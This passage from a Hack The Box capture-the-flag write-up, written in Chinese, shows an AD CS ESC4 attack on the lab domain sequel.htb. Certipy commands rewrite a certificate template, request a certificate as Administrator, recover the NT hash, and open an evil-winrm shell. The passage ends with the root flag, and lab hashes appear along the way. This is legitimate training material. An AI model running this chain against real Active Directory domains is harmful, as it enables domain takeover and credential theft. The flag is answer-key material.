    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```

## Windows 域攻击

参考 ESC4 - Access Control Vulnerabilities [Active Directory - Certificate Services - Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#esc4-access-control-vulnerabilities)

```shell
┌──(randark ㉿ kali)-[~]
└─$ certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Domain retrieved from CCache: SEQUEL.HTB
[+] Username retrieved from CCache: ca_svc
[+] Trying to resolve 'dc01.sequel.htb' at '10.10.11.51'
[+] Authenticating to LDAP server
[+] Using Kerberos Cache: ./ca_svc.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: ca_svc
[+] Getting TGS for 'host/dc01.sequel.htb'
[+] Got TGS for 'host/dc01.sequel.htb'
[+] Bound to ldaps://10.10.11.51:636 - ssl
[+] Default path: DC=sequel,DC=htb
[+] Configuration path: CN=Configuration,DC=sequel,DC=htb
[*] Updating certificate template 'DunderMifflinAuthentication'
[+] MODIFY_DELETE:
[+]     pKIExtendedKeyUsage: []
[+]     msPKI-Certificate-Application-Policy: []
[+] MODIFY_REPLACE:
[+]     nTSecurityDescriptor: [b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00\xc8\xa3\x1f\xdd\xe9\xba\xb8\x90,\xaes\xbb\xf4\x01\x00\x00']
[+]     flags: [b'0']
[+]     pKIDefaultKeySpec: [b'2']
[+]     pKIKeyUsage: [b'\x86\x00']
[+]     pKIMaxIssuingDepth: [b'-1']
[+]     pKICriticalExtensions: [b'2.5.29.19', b'2.5.29.15']
[+]     pKIExpirationPeriod: [b'\x00@\x1e\xa4\xe8e\xfa\xff']
[+]     pKIDefaultCSPs: [b'1,Microsoft Enhanced Cryptographic Provider v1.0']
[+]     msPKI-Enrollment-Flag: [b'0']
[+]     msPKI-Private-Key-Flag: [b'16842768']
[+]     msPKI-Certificate-Name-Flag: [b'1']
[*] Successfully updated 'DunderMifflinAuthentication'

┌──(randark ㉿ kali)-[~]
└─$ certipy-ad req -dns 10.10.11.51 -ns 10.10.11.51 -dns-tcp -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.129.186.118 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+",
[+] Trying to resolve 'DC01.sequel.htb' at '10.10.11.51'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 30
[*] Got certificate with multiple identifications
    UPN: 'Administrator@sequel.htb'
    DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```

得到 `administrator_10.pfx` 之后，使用证书获取 `Administrator` 的哈希

```shell
┌──(randark ㉿ kali)-[~]
└─$ certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

即可获取到 `Administrator` 用户的 shell

```shell
┌──(randark ㉿ kali)-[~]
└─$ evil-winrm -i 10.10.11.51 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
```

## FLAG - ROOT

```flag title="C:\\Users\\Administrator\\Desktop\\root.txt"
c12d6534cb19f1c647faf34edb9dca96
```
